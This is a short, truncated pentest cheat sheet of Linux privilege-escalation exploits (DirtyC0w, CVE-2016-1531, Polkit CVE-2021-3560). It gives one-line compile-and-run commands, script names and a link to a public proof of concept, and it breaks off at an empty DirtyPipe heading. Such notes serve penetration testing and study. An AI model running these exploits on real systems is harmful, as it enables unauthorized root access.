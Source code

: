 Methods for Privilege Escalation

<a name="dirtyc0w"></a>
# DirtyC0w

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1.  gcc -pthread c0w.c -o c0w; ./c0w; passwd; id

<a name="cve-2016-1531"></a>
# CVE-2016-1531

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

2.  CVE-2016-1531.sh;id

<a name="polkit"></a>
# Polkit

Domain: No

Local Admin: Yes

OS: Linux

Type: 0/1 Exploit

Methods:

1\.

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

2\.

poc.sh

<a name="dirtypipe"></a>
# DirtyPipe

